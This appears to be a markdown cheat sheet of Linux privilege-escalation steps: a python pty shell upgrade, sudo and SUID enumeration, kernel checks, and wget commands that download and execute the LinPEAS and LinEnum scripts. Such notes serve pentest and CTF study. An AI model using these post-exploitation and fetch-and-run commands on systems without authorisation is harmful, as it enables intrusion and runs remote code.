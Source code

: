 # Privilege escalation

### Your best friend: https://gtfobins.github.io
### Foothold
When we are inside, we can do a quick shell grab, preferably with python
```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

### Who am i?
```console
$ whoami
```

### Somethin useful here?
```console
$ history
```

### Maybe here?
```console
$ sudo -l
```

### Letz check for SUID
```console
find / -perm -u=s -type f 2>/dev/null
```
Iterate these binaries, check them on __gtfobins__!


### Get info, the try to find an escallation way on metasploit/searchsploit
Kernel version
```console
$ uname -r
```
```console
$ cat /proc/version
```

## Ace cards

### Linpeas

```console
$ wget <URL>/linpeas.sh
$ chmod +x ./linpeas.sh
$ ./linpeas.sh
```
This will $hit out a ton, and there will be a lot of useful information

### LinEnum

This bull$hit windows defender does not allow to get this shell file to my machine, so just grab it from a random github
```console
$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
$ chmod +x ./LinEnum.sh
$ ./LinEnum.sh
```
Pretty much the same thing here
